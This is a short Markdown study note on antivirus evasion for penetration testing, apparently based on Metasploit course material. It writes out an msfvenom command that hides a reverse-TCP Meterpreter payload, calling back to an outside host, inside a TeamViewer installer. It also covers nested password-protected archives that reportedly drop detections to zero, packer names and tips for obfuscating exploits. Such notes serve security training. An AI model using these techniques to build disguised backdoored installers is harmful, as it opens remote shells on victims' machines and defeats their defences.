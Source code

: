 
## Evasion Techniques

### 1. Signature-Based AV Bypass

- AV detects known malicious patterns.
    
- Payloads need **obfuscation** or **customization**.
    

---

### 2. AES-Tunneled Meterpreter

- Meterpreter sessions use **AES encryption** to bypass:
    
    - IDS/IPS
        
    - Traffic inspection
        
- **Limitation:** Still detectable by static scans pre-execution.
    

---

### 3. Using Executable Templates

Embed payloads in **legitimate executables**:

```
msfvenom -p windows/x86/meterpreter_reverse_tcp \
  LHOST=10.10.14.2 LPORT=8080 -k \
  -x ~/Downloads/TeamViewer_Setup.exe \
  -e x86/shikata_ga_nai -i 5 \
  -a x86 --platform windows \
  -o ~/Desktop/TeamViewer_Setup.exe
```

**Flags:**

- `-k` → Keep original functionality
    
- `-x` → Use custom executable as a template
    
- `-e` → Encode payload (e.g., `x86/shikata_ga_nai`)
    
- `-i` → Number of encoding iterations
    

---

### 4. Packing with Archives

Use **nested, password-protected archives** to bypass static detection:

```
rar a ~/test.rar -p ~/test.js
mv test.rar test
rar a test2.rar -p test
mv test2.rar test2
```

**Testing:**

```
msf-virustotal -k <API_KEY> -f test2
```

- Original file → ~11/59 detections
    
- Double-archived file → 0 detections
    

---

### 5. Packers

Packers **compress and obfuscate executables**:

- **Popular Packers:**
    
    - UPX
        
    - MPRESS
        
    - The Enigma Protector
        
    - Themida
        
    - ExeStealth
        
- Learn more: **PolyPack Project**
    

---

### 6. Exploit Coding & Obfuscation

Write **custom, non-patterned code** to avoid detection.  
Example target structure in code:

```ruby
'Targets' => [
  ['Windows 2000 SP4 English', { 'Ret' => 0x77e14c29, 'Offset' => 5093 }],
],
```

**Avoid:**

- Obvious **NOP sleds**
    
- Static buffer patterns
    
- Reusing **popular exploit signatures**
    

**Pro Tip:** Always **test in a sandboxed lab** before live deployment.

---

# References

- **MSFVenom Payload Cheat Sheet**
    
- **Metasploit Unleashed** – Offensive Security
    
- **PolyPack Project** – Analysis of packers and obfuscators
    
- **Penetration Testing Frameworks** for custom exploit design